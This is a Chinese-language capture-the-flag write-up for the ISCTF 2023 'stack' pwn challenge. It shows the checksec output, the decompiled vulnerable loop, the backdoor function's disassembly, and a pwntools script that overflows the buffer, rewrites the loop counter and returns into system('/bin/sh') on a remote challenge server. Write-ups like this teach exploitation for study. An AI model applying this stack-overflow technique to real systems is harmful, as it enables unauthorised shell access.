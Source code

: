 # Pwn-stack
## 预处理
题目界面有一个下载文件，首先通过`checksec`工具查询文件权限：
```shell
checksec stack
[*] '/mnt/f/CTF/Writeup/ATS-Team/2023/isctf2023/Pwn/stack/stack'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

发现仅仅开启了NX保护（任意代码执行保护），于是我们将源程序反编译。

## 文件分析
首先可以发现一个名为 `backdoor` 的函数，我们发现其其为我们调用的后门函数。

然后我们分析关键函数 `vuln` , 反编译代码如下:

```c
__int64 vuln()
{
  int v1; // [rsp+Ch] [rbp-24h] BYREF
  char s[8]; // [rsp+10h] [rbp-20h] BYREF
  __int64 v3; // [rsp+18h] [rbp-18h]
  int i; // [rsp+2Ch] [rbp-4h]

  *(_QWORD *)s = 0LL;
  v3 = 0LL;
  i = 0;
  v1 = 0;
  printf("size: ");
  __isoc99_scanf("%d", &v1);
  printf("> ");
  for ( i = 0; i < v1; ++i )
  {
    read(0, &s[i], 1uLL);
    if ( s[i] == 10 )
      break;
  }
  puts(s);
  return 0LL;
}
```

我们发现我们的输入值可以控制循环的次数，而 `s` 数组仅有八个字节的空间，于是我们可以输入一个很大的数，然后不断的循环，造成栈溢出。

这里有两个需要注意的地方：

1. 在溢出时，我们会覆盖控制循环次数的地方(即 `i` ), 于是在覆盖时， 我们需要将其设置为我们需要的值（调试得 `0x24` ）
2. 在调用后门函数时，我们发现其在调用前存在堆栈平衡操作，而这样会导致错误。于是我们设置后门地址时跳过前面两行，将其设为 `0x4012ee`

`backdoor` 汇编如下：
```mipsasm
.text:00000000004012E6                               ; Attributes: bp-based frame
.text:00000000004012E6
.text:00000000004012E6                               ; int backdoor()
.text:00000000004012E6                               public backdoor
.text:00000000004012E6                               backdoor proc near
.text:00000000004012E6                               ; __unwind {
.text:00000000004012E6 F3 0F 1E FA                   endbr64
.text:00000000004012EA 55                            push    rbp
.text:00000000004012EB 48 89 E5                      mov     rbp, rsp
.text:00000000004012EE 48 8D 05 1C 0D 00 00          lea     rax, command                    ; "/bin/sh"
.text:00000000004012F5 48 89 C7                      mov     rdi, rax                        ; command
.text:00000000004012F8 B8 00 00 00 00                mov     eax, 0
.text:00000000004012FD E8 AE FD FF FF                call    _system
.text:00000000004012FD
.text:0000000000401302 90                            nop
.text:0000000000401303 5D                            pop     rbp
.text:0000000000401304 C3                            retn
.text:0000000000401304                               ; } // starts at 4012E6
.text:0000000000401304
.text:0000000000401304                               backdoor endp
```

于是我们构造出最终的 `payload` :
```python
# payload isctf2023-pwn-stack
from pwn import *

# r = process('./stack')
# change to your address
r = remote("43.249.195.138", 20472)
#backdoor address
sys_addr = 0x4012ee                     

r.recvuntil(b": ")
# input a big number(maybe bigger than 50)
r.sendline(b"100")                      
r.recvuntil(b">")
# payload: 0x24 is the number of i, which can directly covered rsp
payload = b"a" * (0x20 - 0x04) + p32(0x24) + p64(sys_addr)
# pause()
r.sendline(payload)
r.interactive()
```
运行脚本，即可获得 `flag` 。